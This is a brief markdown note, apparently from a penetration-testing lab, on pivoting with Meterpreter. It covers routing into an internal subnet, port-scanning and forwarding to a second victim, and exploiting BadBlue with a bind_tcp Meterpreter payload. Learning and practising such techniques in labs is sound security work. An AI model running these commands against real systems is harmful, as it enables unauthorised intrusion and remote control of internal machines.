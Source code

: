 # Pivoting with Meterpreter
Gaining access to a system on an internal network using a different machine you have access to.  

1. Copy the IP address of the victim interface
2. Add a route with meterpreter -- ```run autoroute -s (IP address subnet range, example 192.168.1.0)/subnet```
3. Background meterpreter session
4. Use portscan module to scan for open ports on the target
   - Module: **auxiliary/scanner/portscan/tcp**
5. set RHOSTS to victim2
6. run

Forward port 80
1. Go to session 1
2. ```portfwd add -l 1234 -p 80 -r (victim 2 IP)```
3. Run db_nmap scan ```db_nmap -sS -sV -p 1234 localhost```

Exploiting
1. Use Badblue module
2. set payload to bind instead of reverse TCP -- ```windows/meterpreter/bind_tcp```
3. Set RHOSTS to Victim 2
4. update LPORT to a different port
